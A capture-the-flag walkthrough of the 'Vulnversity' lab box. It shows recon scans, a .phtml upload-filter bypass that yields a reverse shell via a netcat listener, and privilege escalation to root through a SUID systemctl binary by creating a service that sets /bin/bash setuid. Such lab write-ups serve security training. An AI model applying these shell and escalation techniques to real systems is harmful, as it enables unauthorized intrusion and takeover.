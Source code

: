 # Vulnversity

## Reconnaissance

Scan the box, how many ports are open? 6

```
nmap -sV -n 10.10.123.163
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-17 13:21 CDT
Nmap scan report for 10.10.123.163
Host is up (0.11s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.18 seconds
```

What version of the squid proxy is running on the machine?

3.5.12

How many ports will nmap scan if the flag -p-400 was used?

400

Using the nmap flag -n what will it not resolve?

DNS

What is the most likely operating system this machine is running?

Ubuntu

What port is the web server running on?

3333

## Locating directories using GoBuster

What is the directory that has an upload form page? http://10.10.123.163/internal/

```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.123.163:3333
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.123.163:3333
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/04/17 13:34:03 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 322] [--> http://10.10.123.163:3333/images/]
/css                  (Status: 301) [Size: 319] [--> http://10.10.123.163:3333/css/]   
/js                   (Status: 301) [Size: 318] [--> http://10.10.123.163:3333/js/]    
/fonts                (Status: 301) [Size: 321] [--> http://10.10.123.163:3333/fonts/]
/internal             (Status: 301) [Size: 324] [--> http://10.10.123.163:3333/internal/]
```

### Compromise the server

Try upload a few file types to the server, what common extension seems to be blocked?

.php

```
nano phpext.txt

GNU nano 5.4                           
phpext.txt                                             
.php
.php3
.php4
.php5
.phtml

cat phpext.txt
.php
.php3
.php4
.php5
.phtml
```

Run this attack, what extension is allowed? .phtml


https://github.com/regtay/Vulnversity/blob/main/Images/Burpsuite%20View%20.png

https://github.com/regtay/Vulnversity/blob/main/Images/Rervereshell%20upload.png

https://github.com/regtay/Vulnversity/blob/main/Images/Upload%20.png


What is the name of the user who manages the webserver? bill

What is the user flag? 8bd7992fbe8a6a----------04cfcedb



```
nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.9.239.22] from (UNKNOWN) [10.10.123.163] 46752
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 16:34:23 up  1:59,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ ls /home
bill
$ ls /home/bill
user.txt
$ cat /home/bill/user.txt
8bd7992fbe8a6a----------04cfcedb
$
```

### Privilege Escalation

On the system, search for all SUID files. What file stands out?
```
$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/at
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/squid/pinger
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/su
/bin/ntfs-3g
/bin/mount
/bin/ping6
/bin/umount
/bin/systemctl
/bin/bash
/bin/ping
/bin/fusermount
/tmp/systemctl
/sbin/mount.cifs
```

```
nc -lvp 9001
listening on [any] 9001 ...
10.10.246.53: inverse host lookup failed: Unknown host
connect to [10.9.239.22] from (UNKNOWN) [10.10.246.53] 41736
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 13:10:29 up  1:02,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python -c "import pty; pty.spawn('/bin/bash')"
www-data@vulnuniversity:/$ TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
TF=$(mktemp).service
www-data@vulnuniversity:/$ echo '[Service]
 Type=oneshot
 ExecStart=/bin/sh -c "chmod +s /bin/bash"
 [Install]
 WantedBy=multi-user.target' > $TF
www-data@vulnuniversity:/$ /bin/systemctl link $TF
Created symlink from /etc/systemd/system/tmp.eoRJBKjagh.service to /tmp/tmp.eoRJBKjagh.service.
www-data@vulnuniversity:/$ /bin/systemctl enable --now $TF
Created symlink from /etc/systemd/system/multi-user.target.wants/tmp.eoRJBKjagh.service to /tmp/tmp.eoRJBKjagh.service.
www-data@vulnuniversity:/$ cd /root
cd /root
bash: cd: /root: Permission denied
www-data@vulnuniversity:/$ /bin/bash/bin/bash
bash-4.3$ cd root
cd root
bash: cd: root: Permission denied
bash-4.3$ exit
www-data@vulnuniversity:/$ /bin/bash -p
/bin/bash -p
bash-4.3# cd /root
cd /root
bash-4.3# ls
ls
root.txt
bash-4.3# cat root
cat root
cat: root: No such file or directory
bash-4.3# cat root.txt  
cat root.txt
a58ff8579f0a92----------966c7fd5
bash-4.3#
```

Happy Ethical Hacking
